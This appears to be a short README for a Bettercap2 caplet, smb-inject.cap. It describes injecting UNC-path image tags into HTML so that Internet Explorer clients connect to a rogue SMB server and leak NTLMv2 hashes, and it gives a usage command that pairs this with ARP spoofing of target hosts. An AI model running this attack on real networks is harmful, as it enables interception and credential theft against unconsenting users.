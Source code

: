 # Bettercap2 Caplets

### smb-inject.cap
__Description__: _Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes_
<br>__Related JS__: smb-inject.js
<br>__Usage__:
`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`
<br>__smb.listener.ip__ is the IP to your rogue SMB server
<br>__arp.spoof.targets__ is the IP (single or CIDR notation) of the range to poison/spoof

